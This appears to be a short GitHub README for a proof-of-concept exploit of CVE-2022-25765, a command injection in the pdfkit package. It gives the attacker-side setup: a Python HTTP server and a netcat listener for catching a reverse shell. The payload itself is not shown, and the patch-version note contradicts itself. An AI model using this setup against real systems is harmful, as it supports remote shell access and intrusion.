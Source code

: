 # PDFkit-CMD-Injection
CVE-2022-25765 pdfkit &lt;0.8.6 command injection.


The package pdfkit is vulnerable to Command Injection where the URL is not properly sanitized.

Note: This issue was patched in 0.8.7.2, but the patch was discovered to be ineffective. The updated patch version is 0.8.7.2

## PoC

Start a HTTP server
```
python3 -m http.server 80
```

Start a netcat listener
```
nc -nlvp 4444
```





